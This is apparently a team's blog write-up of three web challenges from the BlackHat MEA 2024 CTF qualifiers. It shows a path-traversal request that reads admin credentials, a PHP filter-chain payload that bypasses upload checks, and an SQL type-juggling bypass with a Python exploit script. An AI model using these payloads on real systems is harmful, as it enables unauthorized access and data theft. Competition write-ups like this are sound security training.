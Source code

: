 ```yaml
---
title: BlackHat MEA 2024 Qualifiers Write-Up
published: 2024-08-17
description: 'Our team qualified for BlackHat MEA 2024! This post includes web challenge write-ups from the qualifiers and insights into our journey to the top 100.'
image: './cover.jpg'
tags: [BlackHat, CTF, WebSecurity]
category: 'CTF'
draft: false
---
```

# BlackHat MEA 2024 Qualifiers – Web Challenge Write-Ups

We’re thrilled to share that our team made it into the **Top 100** for the **BlackHat MEA 2024 Qualifiers**! Here are detailed walkthroughs for three web challenges we solved: **Watermelon**, **Free Flag**, and **Notey**. Each one tested different aspects of web exploitation, from file traversal to unconventional SQL logic.

---

## Watermelon Write-Up

- **Category:** Web  
- **Points:** 120  
- **Difficulty:** Easy  

### Challenge Description

> All love for Watermelons 🍉🍉🍉  
> *Note: The code is not jailed — take care while crafting exploits.*

🔗 [Challenge Files](https://github.com/hanzalaghayasabbasi/BlackHat-MEA-2024-Qualifiers-Write-Ups/tree/main/Watermelon-src)


###  Walkthrough

#### 1. Registration & Login

We registered a user via `/register` and grabbed the session cookie after login.

![Register](https://github.com/user-attachments/assets/6b80c459-419c-41dc-8287-c62f437c7a09)  
![Login Cookie](https://github.com/user-attachments/assets/a6802a2d-b197-482a-b340-8e8b508fb2cd)



#### 2. File Traversal → Admin Password

We discovered that `app/app.py` contained admin credentials and identified a file traversal vulnerability in the `/upload` path.

![Traversal Found](https://github.com/user-attachments/assets/bde3eb53-e89b-4c97-b309-376d940057fd)

Using `curl`, we accessed `/file/1/../../../app/app.py` and extracted the password:

![Admin Password](https://github.com/user-attachments/assets/23a06e81-05ee-45b8-ad8f-8b3978fc7528)



#### 3. Admin Login & Cookie Hijack

We logged in with the credentials and copied the session:

![Admin Session](https://github.com/user-attachments/assets/b354a35e-c8ad-4a1a-8d49-dacc891046b0)



#### 4. Flag Retrieval

A simple GET to `/admin` with the admin cookie gave us the flag:

![Flag](https://github.com/user-attachments/assets/4acf6005-ce59-4df5-b710-f2e95fa551d9)

---

## Free Flag Write-Up

- **Category:** Web  
- **Points:** 110  
- **Difficulty:** Easy  

### Challenge Description

> Free Free

🔗 [Challenge Files](https://github.com/hanzalaghayasabbasi/BlackHat-MEA-2024-Qualifiers-Write-Ups/tree/main/FreeFlag-src)

---

### Exploit Strategy

The application checked for specific content in uploaded files. We used the [`wrapwarp`](https://github.com/AabyssZG/wrapwarp) tool to generate a filtered payload:

```bash
python3 wrapwarp.py /flag.txt "<?php" "?>" 100
```

This created a long filter chain, bypassing content restrictions:

```
php://filter/convert.base64-encode|convert.iconv.855.UTF7|...
```


### 🏁 Retrieving the Flag

Posting the payload allowed us to bypass file inspection and retrieve the flag from inside a PHP wrapper.

![Flag Output](https://github.com/user-attachments/assets/68a070bf-cf4d-46e7-825c-ed04690981e8)

---

## Notey Write-Up

- **Category:** Web  
- **Points:** 180  
- **Difficulty:** Medium  

### Challenge Description

> I created a note-sharing site. Don’t try to access other people’s notes — grass isn’t greener :'(

🔗 [Challenge Files](https://github.com/hanzalaghayasabbasi/BlackHat-MEA-2024-Qualifiers-Write-Ups/tree/main/Notey-src)



### Vulnerability: Type Juggling → Logic Flaw

The app lets users view notes using an ID and secret. But the `viewNote` endpoint didn’t validate input types, allowing arrays to be passed.

Sending:

```
/viewNote?note_id=66&note_secret[username]=admin
```

Resulted in this SQL query:

```sql
SELECT note_id, username, note FROM notes 
WHERE note_id = '66' AND secret = `username` = 'admin'
```

Which simplifies to:

```sql
... WHERE note_id = '66' AND 1
```

The condition evaluates true because the `username='admin'` exists.



### Alternative Bypass

If `username` isn't available, we could still bypass with:

```
/viewNote?note_id=66&note_secret[note]=test
```



### Exploit Script

The session expired quickly (under 3 seconds), so we automated the entire flow:

```python
import requests

base_url = 'http://a7c623f98ed8647acdccc.playat.flagyard.com'
username = "hanzala"
password = "11223344"

sess = requests.Session()
sess.post(f"{base_url}/register", data={"username": username, "password": password})
sess.post(f"{base_url}/login", data={"username": username, "password": password})

target_url = f"{base_url}/viewNote?note_id=66&note_secret[username]=admin"
exp = sess.get(target_url)
print(f"Flag: {exp.json()[0]['note']}")
```

---

##  Final Thoughts

These challenges blended practical web attack techniques with creative logic flaws. It was a rewarding experience to solve them under pressure — and making it into the Top 100 feels even better. Huge shoutout to the organizers and good luck to everyone in the next stage! 💪🏽


Happy Hacking, 
